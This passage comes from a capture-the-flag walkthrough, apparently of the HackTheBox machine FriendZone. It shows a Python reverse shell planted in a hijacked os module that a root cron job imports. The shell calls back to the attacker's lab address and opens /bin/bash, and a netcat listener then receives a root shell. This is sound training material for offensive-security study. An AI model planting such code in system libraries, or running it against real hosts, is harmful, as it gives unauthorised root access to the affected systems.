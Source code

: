     try:
        _copy_reg.pickle(statvfs_result, _pickle_statvfs_result,
                         _make_statvfs_result)
    except NameError: # statvfs_result may not exist
        pass
    
    import pty
    import socket
    
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.10.14.7",443))
    dup2(s.fileno(),0)
    dup2(s.fileno(),1)
    dup2(s.fileno(),2)
    pty.spawn("/bin/bash")
    s.close()
    

It’s a standard python reverse shell, except that instead of `os.dup2()`, I
just write `dup2()`. That’s because I’m in the os module right now. It
actually should still work if you just `import os`, but I removed it as it’s
not needed.

I’ll save that. Since waiting two minutes to fail is annoying, I’ll open
python on my own and see if I get a shell back as friend. On just starting
`python`, I get a callback, and have a shell. I’ll exit out and wait for the
cron. Once the two minutes rolls, shell:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.123.
    Ncat: Connection from 10.10.10.123:46118.
    root@FriendZone:~# id
    uid=0(root) gid=0(root) groups=0(root)
    

From there, grab `root.txt`:

    
    
    root@FriendZone:~# cat root.txt 
    b0e6c60b...
    

[](/2019/07/13/htb-friendzone.html)

